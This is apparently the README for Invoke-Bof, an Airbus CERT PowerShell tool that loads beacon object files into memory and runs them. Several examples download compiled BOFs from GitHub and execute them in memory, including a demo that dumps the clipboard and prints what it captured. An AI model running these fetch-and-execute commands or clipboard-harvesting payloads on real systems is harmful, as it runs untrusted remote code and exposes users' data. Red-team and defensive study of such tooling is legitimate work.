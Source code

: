 # Get-Help Invoke-Bof

|Parameter|help|
|----------|-----------|
|`BOFBytes`| A byte array containing the beacon object file to load and execute. Loading a BOF from a local file : </br>```$BOFBytes = [IO.File]::ReadAllBytes("c:\my_bof.o")```</br>A BOF hosted on a repository : </br>```$BOFBytes = (Invoke-WebRequest -Uri "https://github.com/airbus-cert/Invoke-Bof/raw/main/test/test_invoke_bof.x64.o").Content```|
| `EntryPoint` | Name of the function to call (the convention is to name the entry point __go__) |
| `ArgumentList` | List of all arguments that will be passed to the main function. For example marshall two arguments, the first as string, the second as integer : <br>```Invoke-Bof -BOFBytes $BOFBytes -EntryPoint go -ArgumentList "toto",14``` </br>To know the parameters accepted by a BOF, please take a look at the aggressor script.|
| `UnicodeStringParameter` | Marshal all string parameters as UTF-16LE strings |

Example :

```
$BOFBytes = (Invoke-WebRequest -Uri "https://github.com/airbus-cert/Invoke-Bof/raw/main/test/test_invoke_bof.x64.o").Content
Invoke-Bof -BOFBytes $BOFBytes -EntryPoint go -ArgumentList "toto",14
```

# How does it works?

✈️ If you want to know what is behind the scene, please read the dedicated [blog post](https://skyblue.team/posts/invoke-bof/) !!! ✈️

# Launch Every Beacon Carefully!

Now we can launch every beacon available from Github. For example, we can test a beacon that dumps our clipboard:

```
> $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/DallasFR/BOF_dumpclip/raw/main/dump.o").Content
> Invoke-Bof -BOFBytes $BOFBytes -EntryPoint go



██╗███╗   ██╗██╗   ██╗ ██████╗ ██╗  ██╗███████╗    ██████╗  ██████╗ ███████╗
██║████╗  ██║██║   ██║██╔═══██╗██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗██╔════╝
██║██╔██╗ ██║██║   ██║██║   ██║█████╔╝ █████╗█████╗██████╔╝██║   ██║█████╗  
██║██║╚██╗██║╚██╗ ██╔╝██║   ██║██╔═██╗ ██╔══╝╚════╝██╔══██╗██║   ██║██╔══╝  
██║██║ ╚████║ ╚████╔╝ ╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝██║     
╚═╝╚═╝  ╚═══╝  ╚═══╝   ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝     
                                               
  [v0.1 Made with love by Airbus CERT https://github.com/airbus-cert]



[+] Mapping of .text    at  0x133e0c20000
[+] Mapping of .rdata   at  0x133e0c30000
[+] Mapping of .xdata   at  0x133e0c40000
[+] Mapping of .pdata   at  0x133e0c50000
[+] Mapping of /4       at  0x133e0c60000
[+] Jump into beacon at 0x133e0c20000
****************************************************************************
[+] Clipboard updated !
[!]Active Windows : Windows PowerShell ISE
[!] Content : $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/DallasFR/BOF_dumpclip/raw/main/dump.o").Content
Invoke-Bof -BOFBytes $BOFBytes  -EntryPoint go
----------------------------------

****************************************************************************
```